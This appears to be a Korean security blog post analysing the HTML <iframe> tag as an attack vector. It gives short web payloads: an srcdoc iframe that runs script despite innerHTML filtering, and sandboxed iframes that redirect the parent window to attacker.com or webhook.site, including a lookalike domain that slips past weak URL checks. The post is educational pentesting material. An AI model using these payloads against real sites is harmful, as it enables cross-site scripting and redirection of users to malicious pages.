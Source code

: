 ```yaml
---
layout: post
title: <iframe>
subtitle: 제일 취약하다고 생각하는 태그에 대한 나름의 분석
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - XSS
  - iframe
  - Open_Redirect
  - innerHTML
sidebar:
---
```

## Intro
`<iframe>`은 다른 웹 페이지(HTML)를 사용하기 위한 태그이고, 아직 많이 사용하고 있는 것 같습니다. 특히 youtube를 불러올 때, 많이 쓰는거 같다는 느낌을 받았습니다. [왜 video로 안불러오지....?]        

현 페이지가 보안에 안전한 페이지라도 불러오는 다른 웹 페이지가 안전하지 않다면 현 페이지에도 영향이 가기에 `<iframe>`에 대한 저의 인식은 취약한 태그로 자리잡고 있습니다.    

이 글에서 다양한 보안 설정들을 `<iframe>`을 통해 어떻게 우회? 및 공격할 수 있는지 적어두려고 합니다.   
## Detect & Exploit 
### Detect
우선 iframe 태그를 삽입할 수 있는 지 파악해주시면 됩니다.   
### Exploit

#### InnerHTML 우회
[MDN InnerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)문서를 보면 InnerHTML로 `<script>` 삽입 시 실행이 되지 않는다고 되어 있습니다. 저도 진단하면서 간혹 태그는 정상적으로 들어가지만, 실행이 안됐던 적이 있었는데 `<iframe>`을 통해 우회가 가능합니다.   
☑️물론 `<script>`가 삽입되는 곳이라면 다른 편한 방법이 있을 것입니다.   
```HTML
#srcdoc 속성을 이용한 태그 삽입
<iframe srcdoc="<script>alert()</script>">
```
#### Open Redirect
 iframe의 sandbox 속성을 이용하면 부모 창을 제어할 수 있습니다.   
```HTML
#webhook 
<script>window.top.location = https://attacker.com</script>

#victim site
<iframe src="https://webhook.site/~~" sandbox="allow-top-navigation allow-scripts">

#잘못된 src 검증 로직일 경우 ex) startswith
<iframe src="https://www.youtube.com.webhook.site/~~" sandbox="allow-top-navigation allow-scripts">
```

## References
[`<iframe>`-MDN](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)    
